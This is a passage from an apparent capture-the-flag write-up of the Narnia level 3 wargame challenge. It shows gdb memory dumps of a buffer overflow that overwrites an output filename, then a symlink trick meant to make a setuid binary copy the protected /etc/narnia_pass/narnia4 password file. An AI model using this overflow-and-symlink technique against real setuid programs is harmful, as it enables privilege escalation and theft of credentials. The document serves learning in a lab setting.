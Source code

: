 shell xxd dump.bin
end
(gdb) xxd $esp 125
0000000: 88d4 ffff d1d6 ffff 0000 0000 0100 0000  ................
0000010: 08d9 fff7 96d4 ffff a0d4 ffff 6089 edf7  ............`...
0000020: 96d4 ffff 1563 e8f7 97d4 ffff 0100 0000  .....c..........
0000030: 0000 0000 20d5 ffff 4141 4141 4141 4141  .... ...AAAAAAAA
0000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0000050: 4141 4141 4141 4141 0064 6576 2f6e 756c  AAAAAAAA.dev/nul
0000060: 6c00 0000 0000 0000 8b86 0408 f46f fbf7  l............o..
0000070: 8086 0408 0000 0000 48d5 ffff 46         ........H...F
>```
>
> Ok, we can see our null character ending our string and then ```dev/null``` right after.  Let's see if we can overwrite that.
>
>```asm
(gdb) run $(python -c 'print "A"*40')
Starting program: /root/narnia3 $(python -c 'print "A"*40')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Breakpoint 1, 0x08048585 in main ()
(gdb) xxd $esp 125
0000000: 78d4 ffff c9d6 ffff 0000 0000 0100 0000  x...............
0000010: 08d9 fff7 86d4 ffff 90d4 ffff 6089 edf7  ............`...
0000020: 86d4 ffff 1563 e8f7 87d4 ffff 0100 0000  .....c..........
0000030: 0000 0000 10d5 ffff 4141 4141 4141 4141  ........AAAAAAAA
0000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0000050: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0000060: 0000 0000 0000 0000 8b86 0408 f46f fbf7  .............o..
0000070: 8086 0408 0000 0000 38d5 ffff 46         ........8...F
>```
>
> There we go.  So it looks like we can redirect the output file to something of our choosing.  The target is going to be reading the ```/etc/narnia_pass/narnia4``` file.  Now we just need to come up with a way to create a payload around those two pieces of information.
>
> After some messing around I think I found the right track.  The input file is going to be a long name because we have to overwrite the output file at the end. At the same time, that input has to exist and we ultimately want that file to be the password file.  What if we create a symbolic link with the big long name and point it to ```/etc/narnia_pass/narnia4```.  If we can do that, then we just need to give it any other output file besides ```/dev/null``` and we should be able to retrieve the password. Let's go ahead and login and give it a try.
>
>```
narnia3@melinda:/narnia$ ln -s /etc/narnia_pass/narnia4 $(python -c 'print "A"*32+"\x66\x69\x6c\x65"')
ln: failed to create symbolic link 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAfile': Permission denied
narnia3@melinda:/narnia$ ls -la .
total 77
drwxr-xr-x  2 root    root    1024 Nov 14  2014 .
drwxr-xr-x 11 root    root    1024 Mar 18 12:34 ..
-r-sr-x---  1 narnia1 narnia0 7452 Nov 14  2014 narnia0
-r--r-----  1 narnia0 narnia0 1138 Nov 14  2014 narnia0.c
-r-sr-x---  1 narnia2 narnia1 7368 Nov 14  2014 narnia1
-r--r-----  1 narnia1 narnia1 1000 Nov 14  2014 narnia1.c
-r-sr-x---  1 narnia3 narnia2 5142 Nov 14  2014 narnia2
-r--r-----  1 narnia2 narnia2  999 Nov 14  2014 narnia2.c
-r-sr-x---  1 narnia4 narnia3 5816 Nov 14  2014 narnia3
-r--r-----  1 narnia3 narnia3 1841 Nov 14  2014 narnia3.c
-r-sr-x---  1 narnia5 narnia4 5320 Nov 14  2014 narnia4
-r--r-----  1 narnia4 narnia4 1064 Nov 14  2014 narnia4.c
-r-sr-x---  1 narnia6 narnia5 5488 Nov 14  2014 narnia5
-r--r-----  1 narnia5 narnia5 1221 Nov 14  2014 narnia5.c